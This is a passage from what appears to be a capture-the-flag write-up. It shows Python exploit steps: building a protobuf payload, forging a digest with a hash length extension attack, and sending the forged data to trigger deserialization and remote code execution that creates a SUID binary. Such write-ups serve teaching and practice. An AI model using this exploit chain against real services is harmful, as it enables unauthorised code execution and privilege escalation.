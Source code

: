 Now the protobuf serialized fireworks field is forged using the utilities and layout we defined
earlier.

```python
    # Generate the protobuf serialized fireworks field
    #     repeated bytes fireworks = 5;
    # From https://developers.google.com/protocol-buffers/docs/encoding#structure:
    # The wire type of the length-delimited fields like bytes is 2.
    # After the key, the length of the bytes is encoded as a varint.
    log.info('Constructing the protobuf field from scratch.')
    fireworks_payload = encode_key(5, 2)
    fireworks_payload += encode_varint(len(fst_payload))
    fireworks_payload += fst_payload
    fireworks_encoded = base64.b64encode(fireworks_payload)
```

Using the Python API for HashPump, we can generate the forged hash digest and the resultant data
containing the original Base64 data, some padding, and our forged Base64 data.

```python
    # Forge the digest with the hash length extension attack.
    # The key length is known to be 32 from the App.java key length check.
    log.info('Forging the new cake and digest with the malicious fireworks field.')
    forged_digest, forged_data = hashpumpy.hashpump(cake_struct['digest'], cake_base64,
                                                    fireworks_encoded, 32)
```

A new cake JSON structure is created from the HashPump output.

```python
    # Construct the new exported cake.
    new_cake = {
        'digest': forged_digest,
        'cake': binascii.hexlify(forged_data).decode('raw_unicode_escape')
    }
    new_cake_json = json.dumps(new_cake)
    log.success('New Cake JSON forged successfully!')
```

The forged cake JSON is now sent to the application to import.

```python
    # Send the forged JSON.
    log.info('Sending the forged JSON.')
    c.recvuntil(b'Choice: ')
    c.sendline(b'8')
    c.recvuntil(b'Please enter your saved cake: ')
    c.sendline(new_cake_json)
    c.recvuntil(b'Cake successfully gotten!')
```

Now the cake is eaten to trigger the deserialization. After triggering it, the application is exited
back to the `mouse` shell.

```python
    # Trigger the deserialization and get RCE as hatter.
    # The service should crash.
    log.info('Triggering the deserialization to create the hatter SUID binary...')
    c.recvuntil(b'Choice: ')
    c.sendline(b'9')
    c.recvuntil(b'Hope you had fun! Bad day!')
    c.sendline(b'\n\n')
```
